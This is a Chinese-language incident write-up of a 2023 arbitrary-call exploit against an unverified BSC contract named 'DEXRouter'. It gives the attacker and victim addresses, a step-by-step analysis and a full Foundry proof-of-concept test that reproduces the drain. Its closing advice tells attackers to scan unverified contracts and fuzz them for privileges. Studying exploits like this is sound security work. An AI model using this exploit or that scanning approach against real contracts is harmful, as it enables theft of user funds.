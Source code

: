 ```yaml
---
layout: post
category: attack_events
---
```

# DEXRouter@arbitrary-call

- 时间：2023-09-29 08:49:19 (UTC)
- 损失金额：20 BNB（$4,337.20）
- twitter：https://twitter.com/DecurityHQ/status/1707851321909428688


## 交易 

- 黑客EOA地址：[0x09039e2082a0a815908e68bd52b86f96573768e8](https://bscscan.com/address/0x09039e2082a0a815908e68bd52b86f96573768e8)
- 黑客用来攻击的合约地址：[0x0F41f9146dE354e5Ac6Bb3996e2E319Dc8a3Bb7f](https://bscscan.com/address/0x0f41f9146de354e5ac6bb3996e2e319dc8a3bb7f)

- 攻击事件hash：[0xf77c5904da98d3d4a6e651d0846d35545ef5ca0b969132ae81a9c63e1efc2113](https://bscscan.com/tx/0xf77c5904da98d3d4a6e651d0846d35545ef5ca0b969132ae81a9c63e1efc2113)

- 被攻击合约的地址：[0x1f7cF218B46e613D1BA54CaC11dC1b5368d94fb7](https://bscscan.com/address/0x1f7cf218b46e613d1ba54cac11dc1b5368d94fb7#code)

## 资金流向

![image-20231105215835589](13.DEXRouter@arbitrary-call/image-20231105215835589.png)

## 攻击过程

攻击过程非常简单，就调用了`update()`和`functionCallWithValue()`

![image-20231105220023234](13.DEXRouter@arbitrary-call/image-20231105220023234.png)

## 攻击详细分析

此次攻击中使得slot 1、2、3、4、发生了变化，很明显是`update()`导致的。成功调用`update()`会使得这几个storage值发生变化，攻击者将其修改为攻击合约地址，为后续调用`functionCallWithValue()`做准备。

![image-20231105220931357](13.DEXRouter@arbitrary-call/image-20231105220931357.png)

有了权限之后，直接调用`functionCallWithValue()`即可获利，这个函数指定调用某个合约的某个方法，然后会发送以太。攻击者可以随意写一个函数返回true，然后设置好发送的以太即可。

其实这个攻击非常简单，就是获取权限，然后用权限调用关键方法进行获利。这个被攻击的合约没有开源，没开源就认为自己的合约很安全（不知道为啥我在多个网站都无法反编译这个合约的runtimecoee）。其实，这一类的攻击思路很简单，并且也经常发生，攻击思路主要是：找为开源的合约（一般都不咋安全），然后fuzz看看能不能获取到权限，如果获取到权限则调用获利函数。

## 复现

[GitHub](https://github.com/chen4903/BlockChainPoC/tree/master)

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.10;

import "forge-std/Test.sol";
import "./interface.sol";

contract ContractTest is Test {
    // Victim unverified contract. Name "DEXRouter" taken from parameter name in "go" function in attack contract
    IDEXRouter private constant DEXRouter =
        IDEXRouter(0x1f7cF218B46e613D1BA54CaC11dC1b5368d94fb7);

    function setUp() public {
        vm.createSelectFork("bsc", 32161325);
        vm.label(address(DEXRouter), "DEXRouter");
    }

    function testExploit() public {
        deal(address(this), 0 ether);
        emit log_named_decimal_uint(
            "Attacker BNB balance before exploit",
            address(this).balance,
            18
        );
        // DEXRouter will call back to function with selector "0xe44a73b7". Look at fallback function
        DEXRouter.update(
            address(this),
            address(this),
            address(this),
            address(this)
        );

        // Arbitrary external call vulnerability here. DEXRouter will call back "a" payable function and next transfer BNB to this contract
        DEXRouter.functionCallWithValue(
            address(this),
            abi.encodePacked(this.a.selector),
            address(DEXRouter).balance
        );

        emit log_named_decimal_uint(
            "Attacker BNB balance after exploit",
            address(this).balance,
            18
        );
    }

    function a() external payable returns (bool) {
        return true;
    }

    fallback(bytes calldata data) external payable returns (bytes memory) {
        if (bytes4(data) == bytes4(0xe44a73b7)) {
            return abi.encode(true);
        }
    }
}
```

## 建议

- 防守者：不要认为为开源就安全，黑客还是很牛的
- 攻击者：扫未开源的合约，fuzz看看能不能获取权限，或者可以做随意的call调用




